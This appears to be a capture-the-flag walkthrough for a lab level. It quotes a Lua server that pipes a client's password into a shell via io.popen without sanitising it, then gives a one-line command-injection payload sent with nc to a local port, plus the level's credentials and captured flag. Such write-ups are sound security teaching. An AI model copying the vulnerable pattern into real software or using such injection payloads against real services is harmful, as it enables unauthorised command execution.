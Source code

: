 username: level11  
password: feulo4b72j7edeahuete3no7c
---

`level11.lua` started a server on port 5151

It receives a Password from the client and generates its `sha1sum` using the system shell

```lua
...
function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end
...
```

The input is unsanitized which leads to command execution.

To get the flag run the following

```
echo '; getflag>/tmp/a;#' | nc 127.0.0.1 5151 && cat /tmp/a
```

The flag is: fa6v5ateaw21peobuub8ipe6s
